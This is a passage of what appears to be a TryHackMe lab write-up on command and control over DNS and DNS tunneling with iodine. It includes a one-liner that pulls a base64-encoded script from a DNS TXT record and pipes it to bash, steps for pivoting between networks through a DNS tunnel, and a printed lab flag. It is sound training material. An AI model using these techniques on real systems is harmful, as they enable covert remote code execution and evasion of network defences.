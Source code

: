 Confirm the TXT record is Added Successfully  

```markup
thm@victim2$ dig +short -t TXT script.tunnel.com
```

We used the dig command to check the TXT record of our DNS record that we added in the previous step! As a result, we can get the content of our script in the TXT reply. Now we confirmed the TXT record, let's execute it as follows,

Execute the Bash Script!  

```markup
thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```

Note that we cleaned the output before executing the script using tr and deleting any double quotes ". Then, we decoded the Base64 text representation using base64 -d and finally passed the content to the bash command to execute. 

Now replicate the C2 Communication steps to execute the content of the flag.tunnel.com TXT record and answer the question below.


After we did all that, we get:

```
THM{C-tw0-C0mmun1c4t10ns-0v3r-DN5}
```

# DNS Tunneling
---

This task will show how to create a tunnel through the DNS protocol. Ensure that you understand the concept discussed in the previous task (Exifltration over DNS), as DNS Tunneling tools work based on the same technique.

## DNS Tunneling (TCPoverDNS)  

This technique is also known as TCP over DNS, where an attacker encapsulates other protocols, such as HTTP requests, over the DNS protocol using the DNS Data Exfiltration technique. DNS Tunneling establishes a communication channel where data is sent and received continuously.

![DNS Tunneling - Data Flow](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/8176731af9ec61cf248cdbc65df92172.png)  

This section will go through the steps required to establish a communication channel over the DNS. We will apply the technique to the network infrastructure we provided (**JumpBox** and **Victim2**) to pivot from Network 2 (192.168.0.0/24) to Network 1 (172.20.0.0/24) and access the internal web server. For more information about the network infrastructure, please check task 2.

We will be using the [iodine](https://github.com/yarrick/iodine) tool for creating our DNS tunneling communications. Note that we have already installed [iodine](https://github.com/yarrick/iodine) on the JumpBox and Attacker machines. To establish DNS tunneling, we need to follow the following steps:

1. Ensure to update the DNS records and create new NS points to your AttackBox machine (Check Task 8), or you can use the preconfigured nameserver, which points to the Attacker machine (att.tunnel.com=172.20.0.200).
2. Run **iodined** server from AttackBox or the Attacker machine. (note for the **server** side we use iodine**d**)
3. On JumpBox, run the iodine client to establish the connection. (note for the client side we use iodine - without **d)**
4. SSH to the machine on the created network interface to create a proxy over DNS. We will be using the -D argument to create a dynamic port forwarding.
5. Once an SSH connection is established, we can use the local IP and the local port as a proxy in Firefox or ProxyChains.
